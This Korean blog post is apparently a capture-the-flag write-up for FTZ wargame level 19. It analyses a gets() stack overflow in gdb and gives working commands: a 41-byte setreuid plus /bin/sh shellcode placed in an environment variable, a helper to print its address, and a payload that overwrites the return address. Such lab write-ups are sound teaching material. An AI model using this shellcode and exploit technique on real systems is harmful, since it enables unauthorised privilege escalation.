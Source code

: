 ```yaml
---
title:  "[FTZ] level 19"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-20 08:37:56

---
```


# level 19

**level19 / swimming in pink**

힌트

![image](https://user-images.githubusercontent.com/69203345/146763019-b7fb8f97-58df-4096-9c69-6d107407a80e.png)

이번 힌트는 굉장히 짧다  
그동한 했던거와 다른 점이라면 setreuid가 없다
setreuid가 있는 41바이트 쉘코드를 사용할 예정이다

gdb를 통해 buf 위치부터 확인

![image](https://user-images.githubusercontent.com/69203345/146763326-ddbfa169-e57e-4473-a2d5-a1dbe50b6a6d.png)

0x08048443 <main+3>: sub esp, 0x28  
0x28(40바이트) 스택 크기를 할당

0x0804844d <main+13>: call 0x80482f4 <gets>  
gets함수 호출 하는데 인자로 buf를 사용함  
<main+13>위에 있는 eax가 buf의 시작부분이고 <main+9>에서 알 수 있다
즉 [ebp-40]이 buf시작 위치 이다


낮은주소 

buf[20] [ebp-40]  
dummy[20]  
sfp[4]  
ret[4]

높은주소

환경변수 쉘코드 사용, setreuid가 있는 41바이트 쉘코드 사용   
> export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

[쉘코드 출처](https://mandu-mandu.tistory.com/22)

![image](https://user-images.githubusercontent.com/69203345/146767483-841a75e9-927f-4d84-8850-7fce7d3dba8b.png)

나온 주소를 사용해서 리턴주소를 덮을 페이로드 작성  
> (python -c 'print"A"*44+"\x8b\xfc\xff\xbf"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146767920-67c794ff-70f0-42e3-9703-6733786c243e.png)
